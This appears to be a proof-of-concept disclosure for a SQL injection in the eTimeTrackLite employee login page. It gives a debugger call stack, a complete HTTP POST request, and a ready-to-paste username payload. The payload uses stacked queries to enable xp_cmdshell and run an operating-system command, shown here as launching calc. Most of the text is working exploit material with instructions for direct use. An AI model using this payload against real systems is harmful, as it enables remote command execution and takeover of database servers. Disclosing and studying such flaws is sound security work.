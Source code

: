 Call Stack

```
>	eTimeTrackLiteLibrary.dll!eTimeTrackLiteLibrary.Manage.EmployeeManagement.GetEmployeeLoginDetails(ref eTimeTrackLiteLibrary.Data.Master.Employee ObjEmployee, ref eTimeTrackLiteLibrary.Data.Common.ErrorObj objError) (IL=0x0058, Native=0x00007FF954444F60+0x1E6)
 	App_Web_qobtmukw.dll!EmployeeLogin.Btn_Ok_Click(object sender, System.EventArgs e) (IL=0x00E4, Native=0x00007FF953BC51A0+0x3A6)
```

poc

```http
POST /EmployeeLogin.aspx HTTP/1.1
Host: 192.168.1.222:83
Content-Length: 573
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://192.168.1.222:83
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.222:83/EmployeeLogin.aspx
Accept-Encoding: gzip, deflate, br
Cookie: ASP.NET_SessionId=2pvvb5jgnk3clztmd3kngiyg
Connection: keep-alive

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUJNzAzOTQ2MjIwZBgBBSBTdGFmZmxvZ2luRGlhbG9nJENhcHRjaGFDb250cm9sMQ8FJDc3MDVkMGYwLTI4MTYtNGY5Ny1iOGNlLTdlZDRkZmE5ZGI1MmQTOiuWa%2BiQ12qHTkZ1k75yOXihPQ6SRhOzitxWedsJvA%3D%3D&__VIEWSTATEGENERATOR=859E8672&StaffloginDialog%24txt_LoginName=xxxx%27%3BEXEC+sp_configure+%27show+advanced+options%27%2C+1%3BRECONFIGURE%3BEXEC+sp_configure+%27xp_cmdshell%27%2C+1%3BRECONFIGURE%3BEXEC+xp_cmdshell+%27cmd+%2Fc+calc%27%3B--+&StaffloginDialog%24Txt_Password=asfzasf&StaffloginDialog%24CaptchaControl1=jre4h&StaffloginDialog%24Btn_Ok=Login
```

To exploit this vulnerability, you need to ensure that the viewstate is obtained from the server and the verification code is correct. You can directly submit the following value as the username on the login page to exploit it.

```
xxxx';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';-- 
```
